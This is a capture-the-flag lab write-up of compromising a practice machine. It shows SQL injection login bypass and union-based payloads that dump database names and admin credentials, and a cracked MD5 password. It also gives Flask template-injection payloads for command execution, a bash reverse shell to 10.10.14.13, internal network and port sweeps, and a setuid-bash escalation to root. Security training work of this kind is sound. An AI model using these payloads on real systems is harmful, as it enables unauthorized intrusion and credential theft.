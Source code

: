 1. Run nmap to discover some open ports and services from the web server and I discover only port 80 is opened.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/3aafa463-69a2-43d6-a334-5cebca72d477)

2. Open the web server and it shows game website.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/aa13a579-aa8e-4bc1-9545-7811bf1464ee)

3. Use feroxbuster to discover any interesting directories and files.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e837c385-c9fa-4ca0-af15-e59b3a9db01b)

4. Checking one by one features and try to do login in the web server.<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/738b6279-7769-42b8-a7a9-ad2fa751e61b)

5. First thing that i thought is SQLi vulnerability, so let's try input ` ' OR 1=1 -- ` and it works by returning message Login Success!
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/5a0cb110-21e2-41ed-b827-bd0c06bc6730)

6. Send request to the web server and I successfully login as admin.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/aba04fda-567f-4f01-8c88-95cbd486b8af)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/baff21c4-4ad1-4b92-8bad-de9548c4dc28)

7. There is change password in there (I'll use it later) but unfortunately it returns error 500.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/7d89eaeb-a2fe-4e1f-9321-8ae7f0477d9a)

8. Now I must find the admin credentials. I use union-based injection and try one by one until it says login successful. In the photo I can discover that the last number (from 4) are being executed by the system. 
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/6a718a1d-db26-4e7b-9790-9810bd5bf917)

9. The first objective is to find what database is stored inside the web server. To do that, I can execute this payload `' UNION SELECT 0,1,2,concat(schema_name, ' ') FROM information_schema.schemata -- `
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/2aaaae11-e5af-4ec4-8af5-61008bde2010)

10. Realize that only 2 databases inside the web server and the main focus is the **main** database. Next I want to find the table content inside the database with this payload `' UNION SELECT 0,1,2,concat(table_name, ' ') FROM information_schema.tables where table_schema = 'main' -- `
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/04fd3fdb-eb49-4fdf-b2cf-97ae76003d5d)

11. There are 3 tables inside the main database and I directly refer to user table. Before accessing that, I must know what column that are set in the table with this payload `' UNION SELECT 0,1,2,concat(column_name, ' ') FROM information_schema.columns where table_name = 'user' -- `
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/3b7fa45d-907a-4ad0-a6c8-e3514974b46a)

12.The columns are known and I just directly grab the data with this payload `' UNION SELECT 0,1,2,concat(id, ' ', email, ' ', password, ' ', name) FROM user -- `
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/36b99644-78dc-4559-bc85-641db664ecca)<br>

Admin user data:
id = 1
email = admin@goodgames.htb 
password (hash) = 2b22337f218b2d82dfc3b6f77e7cb8ec 
name = admin

13.Seems like the password been hashed using md5, so I use this [tool](https://crackstation.net/) to crack it and found that the password is **superadministrator**
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/6d87ec60-1ca1-4021-83b5-299674e50015)

14. Next I are checking what the setting feature (Right corner above) can do. When I clicked, it directed to internal-administrator.htb but I can't access the web.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e8d5eb02-0737-4804-977d-5608c2d806f6)

15. Add internal-administrator.htb to /etc/hosts and you can open the website and needs to login.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/2153abfb-5929-4068-bb53-d57a45c11cb9)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/cc48f6dc-33b1-48dc-ba32-af2bec1a8ef0)

16. Input admin credentials that have been found and directed to admin's dashboard page.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/80d5d4dd-a0ae-4f49-abf5-c947f2dc0ebe)

17. From the web server name, it indicates to flask. The first thing related to flask is SSTI. In settings feature, I try to put this payload `{{ 6 * 8 }}`. If the output is 48, then it's vulnerable to SSTI.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e6e29e8d-3d5f-4fc8-ac1b-b71abcff02ae)

18. Yep, it's vulnerable. I can execute the payload from this [source](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md) to execute bash command.

Payload:
`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/fc10d462-723c-46ef-ab7b-68408211a275)

19. It shows the information of admin's id which means it works. Next I're going to takeover the admin's shell with reverse shell attack and for the script you can make with this [tool] (https://www.revshells.com/)

Payload:
`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.14.13/777 0>&1"').read() }}`.

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ba4a4d6f-8ae7-439f-bf53-afb0fbfab298)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/db65f6e4-3a79-49bf-aa58-0a63c24ad5fa)

20. I successfully access the admin's shell and get the user flag in /home/augustus/user.txt.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/a6b5b035-a2e2-49cb-b56d-d072ac6965fa)

21. I know that this is already the root one, but I can't find the root flag here. Realize that I still have augustus account that haven't I check. To do that, first I must know his IP address using `ip a` command.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/69f5513f-d776-4793-9132-0675eccb3e78)

22. Knowing that all the ports in 172.19.0.2 are opened. Now I must find another address that opened or indicates that's augustus's shell. I can use loop in bash with this payload `for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bf266e7e-d51f-4f7f-a302-76c5a81d53be)

23. The result is there are two open ports in 172.19.0.xxx. Next I check which ports are open in IP 172.19.0.1 with this command `for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/172.19.0.1/$PORT &>/dev/null" 2>/dev/null && echo "$PORT is open"; done`.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/9fbe3b3a-86e4-4fa0-a896-62a424ece4d1)

24. Unfortunately, the terminal doesn't have ssh access and I can't just access directly to augustus's shell because the partitions isn't mounted yet.<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d35951e1-c436-41ad-924a-f02f4ff34e64)

25. To mount augustus's partitions (sda1) I can run `mount | grep augustus`.<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/41e08e49-21c0-4021-80d7-68e0e18de662)

26. Run `script /dev/null bash` to use the original bash (not user bash) and run `ssh augustus@172.19.0.1` where the password is **superadministrator** (the admin credential).<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/b1061c61-80b7-49e8-9ed5-eaf19542dd1b)

27. Try to open the root and it says permission denied so I can't access it.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ecc569b3-ff6f-4fbf-9252-2b1ae37fdbd1)

28. Next step is I need to copy augustus's bash terminal to root to see the privilege. I can run `ls -l bash` to check it and found that the UID must be 1000.<br> 
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e003b2a4-3c73-40cb-bb67-ac5c959462ae)

29. I're accessing the root privilege so the bash owner must be controlled by root. I can use `chown root:root bash` to transfer file ownership to root and give all access with `chmod 7777`.<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/caa2f2b5-723e-4ce8-8745-5d91ca9d7fc8)

30. Open augustus's shell again with ssh and run the new privilege bash that has been settled in previous step with command `./bash -p`. There I get the root privilege and get the root flag in /root/root.txt.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/522a97f7-7c36-43a1-bff1-06efbb1391e8)




















































